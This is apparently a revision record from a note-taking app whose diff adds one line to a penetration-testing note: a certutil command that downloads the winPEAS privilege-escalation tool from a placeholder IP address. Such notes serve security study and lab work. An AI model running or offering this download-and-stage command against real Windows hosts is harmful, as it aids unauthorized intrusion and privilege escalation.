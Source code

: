 id: 4a97110d9e414da985bac59de2cf798a
parent_id: 6ab01bf233db4654bba9c829a20dd443
item_type: 1
item_id: 7fcb789b143c4fdead546ced081886f7
item_updated_time: 1658402581253
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\".exe\\\" winPEASany.exe\"],[1,\"\\\n> \\\n> certutil.exe -urlcache -split http://x.x.x.x/winPEASany.exe\"]],\"start1\":580,\"start2\":580,\"length1\":20,\"length2\":85}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-21T11:24:06.839Z
created_time: 2022-07-21T11:24:06.839Z
type_: 13